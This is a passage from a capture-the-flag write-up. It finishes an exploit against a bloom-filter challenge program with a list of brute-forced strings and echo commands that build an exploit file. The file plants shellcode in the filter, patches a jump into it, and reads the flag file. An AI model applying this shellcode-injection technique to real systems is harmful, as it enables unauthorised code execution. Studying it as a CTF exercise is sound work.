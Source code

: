 To get the final exploit, I hardcoded both list in a python script that invokes a C
implementation of the hash function (`compute_hash.c`) and use that to
bruteforce all strings of alphanumeric characters of length five that
satisfy our constraint.

In just few seconds, the code gives us the strings we need:
```
qqqwc 
qqqwI 
qqqor 
qqqoM 
qqqpN 
qqqkt 
qqqdt 
qqqzE 
qqq_Q 
qqqI8 
qqqOo 
qqqKs 
qqqBY 
qqq8Z 
qqq0j 
qqwt9 
qqwlF 
qqwah 
qqwzg 
qqwFm 
qqwZg 
qqwVh 
qqeyD 
qqeFJ 
```

Now you can merge all pieces together and enjoy your bloom filter shell!

```
echo -ne 'FLG\x03123'   >> exploit.bin
echo -ne 'DBG\x0100'    >> exploit.bin  # enter debug mode
echo -ne 'ADD\x05qqqwc' >> exploit.bin  # start flipping bits..
... # add all strings
echo -ne 'ADD\x05qqeFJ' >> exploit.bin  # ok, now the filter contains the shellcode
echo -ne 'DBG\x01\xeb'  >> exploit.bin  # exit debug mode and fix byte to jump into the filter
echo -ne 'FLG\x01x'     >> exploit.bin  # you need 15 useles commands to reach the end of the main loop
echo -ne 'cat FLAG.1567' >> exploit.bin # I guess before you want to use ls to find the name..
```









